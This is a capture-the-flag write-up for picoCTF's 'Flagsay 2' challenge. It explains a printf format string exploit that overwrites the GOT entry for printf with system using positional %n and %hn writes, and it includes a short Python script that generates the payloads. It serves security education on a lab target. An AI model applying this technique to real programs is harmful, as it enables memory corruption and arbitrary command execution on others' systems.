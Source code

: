 # Flagsay 2 - 150 Points
Apparently I messed up using system(). I'm pretty sure this one is secure though! I hope [flagsay-2](https://webshell2017.picoctf.com/static/22fa9a9c19a1e1e832f05a57be962664/flagsay-2) is just as exhilarating as the the first one! [Source](https://webshell2017.picoctf.com/static/22fa9a9c19a1e1e832f05a57be962664/flagsay-2.c). Connect on shell2017.picoctf.com:40672.

## Write-up
Despite its similarity, this has almost nothing to do with the first flagsay --- or does it? This flagsay has another type of exploitation, known as a print format exploit. The only one small problem we have is that we don't have a pointer to the buffer like we did in configure console. This means we can't use addresses within our buffer to read arbitrary memory. But fear not! We have yet another pointer. Within the start up code, there was some pointers that were given in order to supply that argv thingy! There's a lot of pointers in there directly on the stack! 

We then use those to override the GOT table for printf. Also in this problem, the hint says that we have to use the `$` and `hn` for `printf` to work this time. The $ (i.e. `%n$x`) allowed you to refer to the *n*th argument, and the `hn` allows you to just write a `short` (16-bit integer) to memory. Now I happened to override the address of `printf` to another function called `system` since both of these functions have exactly ONE string argument. Now, in the end, indeed, the resulting logic doesn't look so different after all... Here's the python script:
```python
while True:
  print("%2$x\n%134519023c%22$n33%21$n")
  hex = int(raw_input("cin value > "), 16) - 0x16B840

  lower = hex & 0xffff
  upper = (hex >> 16) & 0xffff
  upper -= lower
  lower -= 129

  if upper < 0:
    raise ValueError()

  print("%" + str(lower) + "c%29$hn%" + str(upper) + "c%53$hn")
  print
```